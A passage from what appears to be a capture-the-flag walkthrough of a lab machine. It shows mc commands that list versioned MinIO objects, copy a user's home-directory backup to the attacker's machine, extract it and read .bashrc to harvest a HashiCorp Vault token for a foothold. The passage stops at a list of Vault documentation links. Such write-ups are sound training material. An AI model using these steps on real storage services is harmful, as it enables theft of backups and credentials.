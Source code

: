 The directories within the storage seem like user home directories. None of them contain nothing valuable, except for **askyy** (Aurora Skyy, lead developer of Sky Storage, according to the website). Her directory can be enumerated with this command:

```bash
mc ls --recursive --versions myminio/askyy
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/skyfall/askyydir.png" alt="">
  <figcaption>There are different versions of user's home directory backup inside!</figcaption>
</figure>

Directory **askyy** contains 3 versions of the corresponding user's home directory backup. Examine the one highlighted above:

```bash
# copy the backup file to the Attacker machine:
mc cp --vid 2b75346d-2a47-4203-ab09-3c9f878466b8 myminio/askyy/home_backup.tar.gz /YOUR/DESIRED/PATH
# extract its contents:
gunzip home_backup.tar.gz
tar –xvf home_backup.tar.gz -C /PATH
# list directory contents
ls -la
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/skyfall/askyyhome.png" alt="">
  <figcaption></figcaption>
</figure>

Indeed, the backup file contained user home directory. Now examine the contents of **.bashrc** file:

```bash
cat .bashrc
```
<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/skyfall/askyybashrc.png" alt="">
  <figcaption>ENV variables discovered!</figcaption>
</figure>

## Foothold

The above environment variables refer to [HashiCorp Vault]( https://blog.min.io/minio-and-hashicorp-vault/) that MinIO uses for data encryption and secret management. It is necessary to install **Vault client** on the Attacker machine in order to exploit the discovered **Vault token** and establish a foothold on the target system. The following resources contain required information:

* [Vault Installation Instructions](https://developer.hashicorp.com/vault/docs/install#package-manager)
* [Vault Environment Variables](https://developer.hashicorp.com/vault/docs/commands#environment-variables)
* [Vault Commands](https://developer.hashicorp.com/vault/docs/commands)
* [Vault One-Time SSH Passwords](https://developer.hashicorp.com/vault/docs/secrets/ssh/one-time-ssh-passwords)
